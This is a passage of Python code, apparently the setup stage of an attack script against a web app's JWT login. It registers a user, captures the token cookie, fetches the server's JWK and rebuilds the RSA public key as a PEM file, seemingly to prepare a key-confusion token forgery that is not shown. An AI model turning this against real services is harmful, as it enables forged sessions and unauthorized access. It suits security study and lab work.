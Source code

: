 ```python
def register_user(username, password):
    print(f"[*] Attempting to register user: {username}")
    response = requests.post(
        REGISTER_URL, data={"username": username, "password": password})

    if response.status_code == 200:
        print(f"[*] Registered user: {username}")
    else:
        print(f"[!] Failed to register user: {response.text}")
    return response.status_code == 200

# Login to get JWT
def login_user(username, password):
    session = requests.Session()
    print(f"[*] Attempting to login user: {username}")
    response = session.post(
        LOGIN_URL, data={"username": username, "password": password})

    if response.status_code == 303:
        response = session.get(BASE_URL)

    token = session.cookies.get("token")
    if token:
        print(f"[*] Retrieved JWT: {token}")
    else:
        print(f"[!] Failed to retrieve JWT")
    return token

# Download the JWK (public key)
def download_jwk():
    print(f"[*] Attempting to download JWK...")
    response = requests.get(JWK_URL)

    if response.status_code == 200:
        print("[*] JWK download successful")
        print(f"[*] JWK Response: {response.json()}")
        return response.json()['keys'][0]
    else:
        print(f"[!] Failed to download JWK: {response.text}")
        return None

# Recreate the RSA public key from JWK components (n and e) and save it to a file
def rsa_public_key_from_jwk(jwk):
    print(f"[*] Recreating RSA Public Key from JWK...")

    n = base64url_decode(jwk['n'].encode('utf-8'))
    e = base64url_decode(jwk['e'].encode('utf-8'))

    n_int = int.from_bytes(n, 'big')
    e_int = int.from_bytes(e, 'big')

    rsa_key = RSA.construct((n_int, e_int))
    public_key_pem = rsa_key.export_key('PEM')

    # Save the public key to a file with a newline at the end
    with open("recovered_public.key", "wb") as f:
        f.write(public_key_pem)
        if not public_key_pem.endswith(b'\n'):
            f.write(b"\n")

    print(
        f"[*] Recreated RSA Public Key saved to 'recovered_public.key':\n{public_key_pem.decode()}")
```